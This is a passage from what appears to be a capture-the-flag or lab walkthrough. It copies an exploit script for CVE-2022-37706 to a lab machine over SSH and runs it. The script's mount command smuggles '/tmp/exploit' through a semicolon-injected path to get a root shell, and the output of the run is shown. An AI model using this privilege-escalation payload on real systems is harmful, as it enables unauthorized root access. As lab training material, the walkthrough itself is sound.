 ```sh
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

`scp -i ./aelis_rsa ./exploit.sh aelis@192.168.56.127:/home/aelis`:
```
exploit.sh ←
```

`ssh -i ./aelis_rsa aelis@192.168.56.127`:
```
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-57-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of vie 04 oct 2024 17:39:52 UTC

  System load:  0.0               Processes:               112
  Usage of /:   61.5% of 7.77GB   Users logged in:         0
  Memory usage: 44%               IPv4 address for enp0s3: 192.168.56.127
  Swap usage:   0%


108 updates can be applied immediately.
56 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct  4 17:39:53 2024 from 192.168.56.118
```

![Victim: aelis](https://img.shields.io/badge/Victim-aelis-64b5f6?logo=linux&logoColor=white)

`ls -l`:
```
total 12136
-rw-r--r-- 1 aelis aelis      974 Oct  4 17:23 exploit.sh ←
-rw-r--r-- 1 aelis aelis 12421945 Jan 11  2023 php-fos-db.zip
```

`chmod u+x ./exploit.sh`

`./exploit.sh`:
```
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
```
